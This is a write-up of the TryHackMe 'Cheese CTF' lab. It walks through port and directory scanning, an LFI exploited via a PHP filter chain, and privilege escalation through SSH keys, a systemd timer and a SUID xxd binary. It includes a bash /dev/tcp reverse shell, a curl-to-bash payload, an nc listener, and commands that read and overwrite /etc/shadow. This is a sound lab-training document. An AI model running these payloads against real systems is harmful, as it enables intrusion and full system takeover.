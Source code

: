 ```yaml
---
title: THM Cheese CTF
author: hanhctf
date: 2024-10-01 12:00:00 +0700
categories: [Write-up, THM]
tags: [PHP Filters Chain, LFI]
toc: true
mermaid: true
---
```


# [**Cheese CTF**](https://tryhackme.com/r/room/cheesectfv10)

# Summary

> - Emumeration hidden.
> - LFI --> PHP Filters Chain RCE --> revershell.
> - Writeable /.ssh/authorized_key --> SSH.
> - Systemd Timer --> xxd SUID  

## NMAP

Too many open port so I focus on port 22, 80, 443.

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b1:c1:22:9f:11:10:5f:64:f1:33:72:70:16:3c:80:06 (RSA)
|   256 6d:33:e3:bd:70:62:59:93:4d:ab:8b:fe:ef:e8:a7:b2 (ECDSA)
|_  256 89:2e:17:84:ed:48:7a:ae:d9:8c:9b:a5:8e:24:04:bd (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: The Cheese Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp open  https?
```

## Web Enumeration

On the homepage, nothing interesting.  
FUZZ directory with `ffuf`, we found nothing interesting.
So FUZZ with extension `.html`, `.php`, `.txt`

```shell
ffuf -w /opt/SecLists/Discovery/Web-Content/big.txt -u http://10.10.56.241/FUZZ -e .html,.php,.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.56.241/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/big.txt
 :: Extensions       : .html .php .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess.html          [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 359ms]
.htaccess.php           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 359ms]
.htpasswd.php           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 358ms]
.htaccess.txt           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 359ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 359ms]
.htpasswd.txt           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 366ms]
.htpasswd.html          [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 367ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1278ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 363ms]
index.html              [Status: 200, Size: 1759, Words: 559, Lines: 60, Duration: 352ms]
login.php               [Status: 200, Size: 834, Words: 220, Lines: 29, Duration: 359ms]
messages.html           [Status: 200, Size: 448, Words: 59, Lines: 19, Duration: 363ms]
orders.html             [Status: 200, Size: 380, Words: 61, Lines: 19, Duration: 356ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 354ms]
users.html              [Status: 200, Size: 377, Words: 61, Lines: 19, Duration: 350ms]
:: Progress: [81904/81904] :: Job [1/1] :: 114 req/sec :: Duration: [0:12:30] :: Errors: 0 ::
```

Some interesting page `massages.html`, `orders.html`, `users.html`.  
Focus on every page abow.

![](/commons/THM/CheeseCTF/0_PHPFilter.png)

`secret-script.php?file=php://filter/resource=supersecretmessageforadmin`.  
First in my mind is LFI. After try emumeration with FLI, can not find anything.  
Google search `LFI php://filter` and found this [exploit](https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/).

Follow the exploit.  
Clone [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator).  
First create a shell script named "revshell" in local machine.

```shell
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

Second create a chain using a generator.  
Replace the ip address with your own.  

```shell
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.10.10.10/revshell|bash` ?>'
```

Three, we need to start a web server that hosts the shell script, and also start a listener for receiving the reverse connection.

```text
# terminal 1
sudo python3 -m http.server 80

# terminal 2
nc -lvnp 9001
```

Now access to `/?page=<generated_chain>`. We can get a shell.  
I use burpsuite to access it.

![](/commons/THM/CheeseCTF/1_reveshell.png).

![](/commons/THM/CheeseCTF/2_revershell.png).

After got `www-data` revershell.  
I upload `linpeas.sh` to `/tmp`.  
With `linpeas.sh`, We can see we have write permission on `/home/comte/.ssh/authorized_keys`.  

Generate an `ida_rsa.pub` and write it in `/home/comte/.ssh/authorized_keys`.  
We can SSH with **`comte`**.

***GOT USER FLAG***

From **comte**, continous upload `linpeas.sh` and see any vector to privilege escalation.  

We can run `systemctl exploit.timer` as `sudo` without password.  
![](/commons/THM/CheeseCTF/4_sudo.png)

Belong that, we have write privileges over `/etc/systemd/system/exploit.timer`.  
![](/commons/THM/CheeseCTF/5_write.png)

Check detail in `exploit.timer` and `exploit.service`.

![](/commons/THM/CheeseCTF/6_timer.png)

![](/commons/THM/CheeseCTF/7_service.png)

Gather the above information.  
The exploit steps would be:  

Modify the exploit.timer file data.  
Change `OnbootSec=` to `OnBootSec=1min`.

![](/commons/THM/CheeseCTF/8_change.png)

Relaunch exploit.timer to execute exploit.service.

```shell
    sudo /bin/systemctl daemon-reload
    sudo /bin/systemctl restart exploit.timer
    sudo /bin/systemctl start exploit.timer
```

And then we have /opt/xxd with SUID.

![](/commons/THM/CheeseCTF/9_suid.png)

Use [GTFOBINS](https://gtfobins.github.io/gtfobins/xxd/) we can read `/root/root.txt`.

In this write-up, I want use *File write* to gaince **root**.

First, copy all data `/etc/shadow` to **shadow**

```shell
A=/etc/shadow
/opt/xxd "$A" | /opt/xxd -r > shadow
```

`mkpasswd -m sha512crypt` to generate a hash for any password on attacker machine.  
I use `password` for password.

![](/commons/THM/CheeseCTF/10_pass.png)

Repalce `password` hash to password hash of **root** in `shadow`.

![](/commons/THM/CheeseCTF/11_hash.png)

Now, we can do
```shell
LFILE=/etc/shadow
cat exploit | /opt/xxd | /opt/xxd -r - "$LFILE" 
```

to write the contents of the `shadow` file we have created with the new root password hash to `/etc/shadow`.  

We can just use the switch user command to root `su root` and put in our password. We’re root!

![](/commons/THM/CheeseCTF/12_root.png)

***GOT ROOT FLAG***
